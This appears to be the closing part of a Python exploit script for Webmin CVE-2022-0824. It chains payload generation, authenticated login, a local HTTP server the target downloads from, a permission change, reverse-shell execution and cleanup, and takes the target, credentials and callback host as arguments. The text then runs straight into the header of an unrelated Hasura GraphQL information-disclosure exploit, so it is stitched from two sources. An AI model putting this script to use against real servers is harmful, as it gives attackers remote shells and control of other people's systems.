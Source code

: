     def run(self):
        self.gen_payload()
        self.login()
        self.pyhttp_server()
        self.download_remote_url()
        self.modify_permission()
        self.exec_revshell()
        self.do_cleanup()


if __name__ == "__main__":

    parser = argparse.ArgumentParser(description='Webmin CVE-2022-0824 Reverse Shell')
    parser.add_argument('-t', '--target', type=str, required=True, help=' Target full URL, https://www.webmin.local:10000')
    parser.add_argument('-c', '--credential', type=str, required=True, help=' Format, user:user123')
    parser.add_argument('-LS', '--py3http_server', type=str, required=True, help=' Http server for serving payload, ex 192.168.8.120:8080')
    parser.add_argument('-L', '--callback_ip', type=str, required=True, help=' Callback IP to receive revshell')
    parser.add_argument('-P', '--callback_port', type=str, required=True, help=' Callback port to receive revshell')
    parser.add_argument("-V",'--version', action='version', version='%(prog)s 1.0')
    args = parser.parse_args()

    target = args.target
    username = args.credential.split(':')[0]
    password = args.credential.split(':')[1]
    py3http_server = args.py3http_server
    pyhttp_port = py3http_server.split(':')[1]
    callback_ip = args.callback_ip
    callback_port = args.callback_port
    upload_path = "/usr/share/webmin" # the default installation of Webmin Debian Package, may be in different location if installed using other method.
    fname = "revshell.cgi" # CGI script name, you may change to different name

    pwn = Exploit(target, username, password, py3http_server, pyhttp_port, upload_path, callback_ip, callback_port, fname)
    pwn.run()# Exploit Title: Hasura GraphQL 2.2.0 - Information Disclosure
# Software: Hasura GraphQL Community
# Software Link: https://github.com/hasura/graphql-engine
# Version: 2.2.0
# Exploit Author: Dolev Farhi
# Date: 5/05/2022
# Tested on: Ubuntu
